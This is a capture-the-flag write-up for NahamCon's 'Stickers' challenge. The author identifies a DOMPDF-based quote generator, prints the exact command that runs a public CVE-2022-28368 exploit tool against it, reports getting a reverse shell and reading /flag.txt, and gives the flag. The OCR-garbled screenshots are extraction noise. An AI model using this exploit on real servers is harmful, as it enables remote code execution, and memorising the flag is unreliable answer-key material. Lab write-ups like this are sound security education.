 # Stickers
> Wooohoo!!! Stickers!!! Hackers love STICKERS!! You can make your own with our new website!

> Find the flag file in /flag.txt at the root of the filesystem.

## About the Challenge
We got a server that has a functionality to convert our input into a PDF file


[Image extracted text: Sticker Shop
High quality; fully custom sticker printing and printed labels on paper or vinyl at affordable prices Our automated quote service will calculate the
for your stickers. Once you are
get in contact with us to complete your order:
Organisation Name
test
The name of your organisation
Email
test@mailcom
Number of small stickers
Small stickers are 3X3 inches
Number of medium stickers
Medium stickers are 9X9 inches
Number
stickers
Large stickers are 15X15 inches
Submit
price
happy
large]



[Image extracted text: < >
C
Not secure
challenge nahamconcom 32261/quote php?organisation-test&email-test%4Omail com&small-O&medium-O&large-0
Quote
100%
+
Q
0
Sticker Shop
Quotation for:
test
test@mail.com
Saturday 17th of June 2023
Product
Qty
Price (100 stickers)
Total
Product A
5S
0S
Product B
10S
0S
Product C
305
0S
Total
0S
Shipping not included
If you have any questions don't hesitate to contact our sales team
sales@company.com]


## How to Solve?
At first, I thought this website was vulnerable to SSRF where we can input `<iframe src="http://127.0.0.1">` in the `organization` or `email` parameter but I was wrong

And I accidentally made the website error


[Image extracted text: 6 > C
Not secure
challenge nahamconcom 32261/quote ph
Unable to stream pdf: headers already sent]


I researched about this error message, and it appears that this website uses `DOMPDF` to convert our input into a PDF file. Because this website utilizes `DOMPDF`, it reminded me of a machine on HTB where the user had to exploit `RCE` on `DOMPDF`.

Im using this [tool](https://github.com/rvizx/CVE-2022-28368) to easier my work and here is the command I used to exploit the website

```shell
python3 dompdf-rce.py --inject "http://challenge.nahamcon.com:32261/quote.php?email=test%40mail.com&small=3&medium=3&large=3&organisation=" --dompdf "http://challenge.nahamcon.com:32261/dompdf/"
```

And heck yeah, we got a reverse shell. And then read `/flag.txt` to obtain the flag


[Image extracted text: <b4-7697d9b8b-ScSpb: /var /ww/html/dompdf /Lib/fontss ls
Ls
bin
boot
dev
etc
txt
home
lib
1ib64
media
mnt
opt
proc
root
run
sbin
Srv
sys
usr
var
<b4-7697d9b8b-ScSpb: /var
/html/dompdf /Lib/fontss cat /flag.txt
cat
Iflag.txt
flag{a4dS2beabcfdeboba79fc08709bb5508}
flag
tmp
IwWWe]


```
flag{a4d52beabcfdeb6ba79fc08709bb5508}
```